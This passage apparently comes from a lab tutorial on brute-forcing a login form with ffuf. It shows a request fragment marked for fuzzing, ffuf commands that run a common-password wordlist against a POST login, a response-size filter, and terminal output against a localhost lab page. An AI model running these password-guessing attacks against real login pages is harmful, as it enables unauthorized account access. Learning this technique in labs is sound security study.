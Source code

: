 ```python
Sec-Fetch-Site: cross-site

username=hi&password=§hello§§
```

The second method is FFUF tool
first save the request in the req.txt file and change the password=FUZZ which u are trying to brute force it 
```
ffuf -request req.txt -request-proto http -w /usr/share/seclists/Passwords/xato-net-10-million-passwords-10000.txt
```
u will see a lot of result to narrow down it use the filter command 
```
ffuf -request req.txt -request-proto http -w /usr/share/seclists/Passwords/xato-net-10-million-passwords-10000.txt -fs 1814

```
For that u need to identify the size for my case its 1814 using -fs and putting that 1814 will narrow the result for us
```python
gbpltw                  [Status: 200, Size: 1814, Words: 495, Lines: 47, Duration: 38ms]
cowboys1                [Status: 200, Size: 1814, Words: 495, Lines: 47, Duration: 34ms]
beast                   [Status: 200, Size: 1814, Words: 495, Lines: 47, Duration: 48ms]
tatiana                 [Status: 200, Size: 1814, Words: 495, Lines: 47, Duration: 42ms]
durango                 [Status: 200, Size: 1814, Words: 495, Lines: 47, Duration: 46ms]
qwqwqw                  [Status: 200, Size: 1814, Words: 495, Lines: 47, Duration: 22ms]
billie                  [Status: 200, Size: 1814, Words: 495, Lines: 47, Duration: 53ms]
doughboy                [Status: 200, Size: 1814, Words: 495, Lines: 47, Duration: 62ms]
tyrone                  [Status: 200, Size: 1814, Words: 495, Lines: 47, Duration: 28ms]
patrick1                [Status: 200, Size: 1814, Words: 495, Lines: 47, Duration: 57ms]
today                   [Status: 200, Size: 1814, Words: 495, Lines: 47, Duration: 73ms]
12332                   [Status: 200, Size: 1814, Words: 495, Lines: 47, Duration: 69ms]
deeznuts                [Status: 200, Size: 1814, Words: 495, Lines: 47, Duration: 43ms]
juliet                  [Status: 200, Size: 1814, Words: 495, Lines: 47, Duration: 29ms]
possum                  [Status: 200, Size: 1814, Words: 495, Lines: 47, Duration: 79ms]
lespaul                 [Status: 200, Size: 1814, Words: 495, Lines: 47, Duration: 33ms]
breeze                  [Status: 200, Size: 1814, Words: 495, Lines: 47, Duration: 65ms]

```
after doing this and loading the command we will get 
```python
┌──(cyber㉿kali)-[~]
└─$ ffuf -request req.txt -request-proto http -w /usr/share/seclists/Passwords/xato-net-10-million-passwords-10000.txt -fs 1814

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://localhost/labs/a0x01.php
 :: Wordlist         : FUZZ: /usr/share/seclists/Passwords/xato-net-10-million-passwords-10000.txt
 :: Header           : Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
 :: Header           : Origin: http://localhost
 :: Header           : Upgrade-Insecure-Requests: 1
 :: Header           : Sec-Fetch-Dest: document
 :: Header           : Content-Type: application/x-www-form-urlencoded
```
